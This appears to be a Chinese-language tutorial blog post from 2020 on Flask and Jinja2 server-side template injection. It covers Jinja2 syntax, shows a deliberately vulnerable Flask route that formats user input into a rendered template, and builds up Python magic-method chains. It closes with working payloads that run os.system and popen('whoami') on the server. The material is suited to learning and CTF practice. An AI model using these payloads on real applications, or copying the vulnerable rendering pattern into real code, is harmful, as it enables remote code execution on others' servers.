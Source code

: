 ```yaml
---
layout: post
title: 2020-12-07-SSTI模板注入与Flask基础（略带沙箱逃逸）
date: 2020-12-07
categories: blog
tags: [web,php]
description: 学习Flask模板注入了
typora-copy-images-to: ..\img
typora-root-url: ..
---
```


# SSTI模板注入与Flask基础

### Flask简介

Flask是一个Python上的**Web应用程序框架**（Web Application Framework）。

**Web应用程序框架**是一个库和模块的集合，使Web应用程序开发人员能够编写Web应用程序，而不必担心协议，线程管理等低级细节。



Flask基于**Werkzeug WSGI**工具包和**Jinja2**模板引擎。

> ##### Werkzeug
>
> 它是一个WSGI工具包，它实现了请求，响应对象和实用函数。 这使得能够在其上构建web框架。 Flask框架使用Werkzeug作为其基础之一。
>
> ##### jinja2
>
> jinja2是Python的一个流行的模板引擎。Web模板系统将模板与特定数据源组合以呈现动态网页。
>
> Flask通常被称为微框架。 它旨在保持应用程序的核心简单且可扩展。Flask没有用于数据库处理的内置抽象层，也没有形成验证支持。相反，Flask支持扩展以向应用程序添加此类功能。

**Jinjia模板引擎特点**

- ```
  {{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
  ```

  

- ```
  {% ... %}：装载一个控制语句。
  ```

  

- ```
  {# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值。
  ```

  

**控制语句**

```
Jinjia控制语句都是放在{% ... %}中，并且有一个语句{% endxxx %}来进行结束。
```

**Jinja2中for循环内置常量**

| loop.index  | 当前迭代的索引（从1开始）           |
| ----------- | ----------------------------------- |
| loop.index0 | 当前迭代的索引（从0开始）           |
| loop.first  | 是否是第一次迭代，返回True\/False   |
| loop.last   | 是否是最后一次迭代，返回True\/False |
| loop.length | 序列的长度                          |

 **注意：不可以使用`continue`和`break`表达式来控制循环的执行。**

**过滤器**

过滤器是通过（`|`）符号进行使用的，例如：`{{ name|length }}：`将返回name的长度。

过滤器相当于是一个函数，把当前的变量传入到过滤器中，然后过滤器根据自己的功能，再返回相应的值，之后再将结果渲染到页面中。

## SSTi漏洞的产生

ssti漏洞产生于网页模板中的变量被二次渲染时。

什么是二次渲染，这里用两个例子简单展示：

无二次渲染：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html='<h1>Welcome</h1></br><p>{{str}}</p>'
    return render_template_string(html,str=str)
if __name__=='__main__':
    app.run()
```

有二次渲染行为：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html="<h1>Welcome</h1></br><p>%s</p>"%(str)
    return render_template_string(html)
if __name__=="__main__":
    app.run()
```

如果在页面中找到了这样一个ssti漏洞，便意味着我们能够在这个注入点执行该模板引擎的控制语句以及命令

Flask SSTI 题的基本思路就是利用 python 中的 **魔术方法** 找到自己要用的函数。

```
__dict__：保存类实例或对象实例的属性变量键值对字典

__class__：返回调用的参数类型

__mro__：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。 

__base__: 返回该对象所继承的基类

__bases__：返回该对象所继承的类型列表

__subclasses__：以一个列表的形式返回对象的子类

__init__：类的初始化方法

__globals__：函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
```

基本步骤：

使用魔术方法进行函数解析，再获取基本类：

```python
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

获取基本类后，继续向下获取基本类 object 的子类：

```python
object.__subclasses__()
```

这里有可能子类中就含有可以利用的函数，如file,eval等，但是一般是没有的

可以用以下模板控制语句找找看

```
{%for c in ''.__class__.__base__.__subclasses__()%}
{% if 'os' in c.__init__.__globals__%}
{{loop.index0 ~'_'~c.__name__~'-'}}
{% else %}
{{ '-' }}
{%endif%}
{% endfor %}
```

找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

```python
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

或者用模板控制语句找到可以利用的模块，或者__builtins__

```
{%for c in ''.__class__.__base__.__subclasses__()%}
{% if '__builtins__' in c.__init__.__globals__%}
{{loop.index0 ~'_'~c.__name__~'-'}}
{% else %}
{{ '-' }}
{%endif%}
{% endfor %}
```



构造payload

```
''.__class__.__base__.__subclasses__()[59]

''.__class__.__base__.__subclasses__()[81].__init__.__globals__['__builtins__']

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')

''.__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("whoami").read()')
```

